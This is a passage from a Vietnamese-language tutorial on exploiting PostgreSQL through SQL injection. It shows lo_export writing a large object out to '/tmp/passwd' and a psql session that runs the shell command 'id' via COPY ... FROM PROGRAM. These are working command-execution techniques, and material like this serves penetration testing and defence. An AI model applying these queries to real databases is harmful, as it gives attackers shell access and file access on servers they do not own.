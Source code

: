 3. **Xuất đối tượng lớn ra tệp**:
   ```sql
   SELECT lo_export(31337, '/tmp/passwd');
   ```

4. **Xóa đối tượng lớn**:
   ```sql
   SELECT lo_unlink(31337);
   ```

Sau khi thực hiện, bạn sẽ có tệp `/tmp/passwd` chứa nội dung của tệp đã xuất.

##### **Quyền truy cập với Large Objects:**

- Người dùng có thể tạo và xóa **large objects** mà không cần quyền đặc biệt.
- Tuy nhiên, để nhập, xuất hoặc cập nhật dữ liệu trong large objects, người dùng cần quyền **superuser** hoặc các quyền đặc biệt khác.

---


# 10. Tổng Quan về Thực Thi Lệnh qua SQL Injection

Trong phần này, chúng ta sẽ xem xét hai phương pháp để thực thi các lệnh qua SQL Injection, cụ thể là trong cơ sở dữ liệu PostgreSQL. Những phương pháp này bao gồm việc sử dụng lệnh `COPY` và các extension của PostgreSQL.

### Phương Pháp 1: Sử Dụng Lệnh `COPY` cho Việc Thực Thi Lệnh

Một trong những cách đơn giản để thực thi lệnh trong PostgreSQL qua SQL Injection là sử dụng lệnh `COPY`. Lệnh này thường được dùng để sao chép dữ liệu từ các tệp vào bảng, nhưng nó cũng có thể chạy các chương trình shell và lưu kết quả vào một bảng.

Ví dụ, ta có thể sử dụng lệnh `COPY` để chạy lệnh shell `id` và lưu kết quả vào một bảng như sau:

```sql
bluebird=# CREATE TABLE tmp(t TEXT);
CREATE TABLE
bluebird=# COPY tmp FROM PROGRAM 'id';
COPY 1
bluebird=# SELECT * FROM tmp;
t
-----------------------------------------------------------------------
uid=119(postgres) gid=124(postgres) groups=124(postgres),118(ssl-cert)
(1 row)
bluebird=# DROP TABLE tmp;
DROP TABLE
```

**Lưu ý**: Để có thể sử dụng `COPY` với `PROGRAM`, người dùng cần có quyền `pg_execute_server_program` hoặc là superuser.

### Phương Pháp 2: Sử Dụng PostgreSQL Extensions
